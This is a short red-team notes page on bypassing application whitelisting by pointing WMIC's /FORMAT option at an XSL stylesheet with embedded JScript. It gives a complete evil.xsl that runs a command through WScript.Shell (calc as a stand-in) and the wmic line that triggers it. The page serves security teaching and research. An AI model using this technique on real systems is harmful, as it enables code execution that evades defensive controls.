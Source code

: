# Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% page-ref page="t1117-regsvr32-aka-squiblydoo.md" %}

## Execution

Define the XSL file containing the jscript payload:

{% code-tabs %}
{% code-tabs-item title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-04-10-22-05-24.png)

## Observation

Calculator is spawned by svchost.exe:

![](../.gitbook/assets/screenshot-from-2019-04-10-21-57-52.png)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" %}



